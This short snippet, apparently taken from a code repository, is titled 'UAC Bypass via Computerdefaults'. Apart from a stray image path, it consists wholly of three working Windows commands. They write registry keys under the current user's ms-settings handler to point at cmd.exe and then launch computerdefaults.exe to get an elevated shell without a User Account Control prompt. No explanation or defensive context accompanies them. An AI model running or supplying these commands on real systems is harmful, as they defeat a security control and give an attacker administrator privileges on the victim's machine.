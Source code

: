 # UAC Bypass via Computerdefaults

```powershell
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d "" /f
reg add HKCU\Software\Classes\ms-settings\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f
start computerdefaults.exe
```